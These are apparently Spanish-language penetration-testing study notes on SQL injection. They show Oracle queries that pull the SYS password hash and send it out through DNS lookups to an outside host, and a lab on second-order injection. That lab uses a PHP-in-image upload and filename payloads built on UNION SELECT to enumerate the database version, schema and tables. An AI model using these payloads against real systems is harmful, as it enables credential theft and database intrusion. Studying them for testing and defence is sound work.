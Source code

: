 **UTL\_INADDR** paquete con las funciones **GET\_HOST\_ADDRESS** and **GET\_HOST\_NAME**

```sql
SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.hacket.site') FROM DUAL
SELECT UTL_INADDR.GET_HOST_NAME((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.hacket.site') FROM DUAL
```

También funciones/paquetes como:

```sql
HTTPURITYPE.GETCLOB
UTL_HTTP.REQUEST
DBMS_LDAP.INIT
```

> Se puede utilizar, pero depende de la versión de Oracle

Se puede automatizar con SQLMAP

→ http://www.slideshare.net/stamparm/dns-exfiltration-using-sqlmap-13163281

## Exploiting Second-Order SQL Injection

* Las inyecciones SQL de segundo orden son extremadamente poderosas, al igual que su equivalente en el espacio de primer orden; Sin embargo, debido a su naturaleza, son más difíciles de detectar.
* El exploit se presenta en una sola solicitud y desencadenante cuando la solicitud se encarga de una solicitud diferente.
* Los escáneres automatizados modernos son incapaces de realizar la metodología rigurosa necesariaPara descubrir vulnerabilidades de segundo orden
* Porque hay varios escenarios posibles

### Lab

* Imagen de carga
* ir a **Lista de firmas de archivos** en wikipedia
* Ver el valor de los archivos jpg

Trate de aumentar el valor con código php en él

```php
<?php phpinfo();
```

Trate de abrir la imagen subida, si la página tiene manejador de php abrirá el phpinfo

```sql
# If not, procced to test the file name with BURP > Repeater
filename="example.php' and true -- -"

# If the number of view increase, lets try with UNION this time
filename="example.php' UNION SELECT @@VERSION; -- -"
filename="' UNION SELECT @@VERSION; -- -" //take off the name of the file
filename="' UNION SELECT SCHEMA(); -- -"
filename="' UNION SELECT GROUP_CONCAT(table_name) from information_schema.tables where table_schema = SCHEMA(); -- -"
```
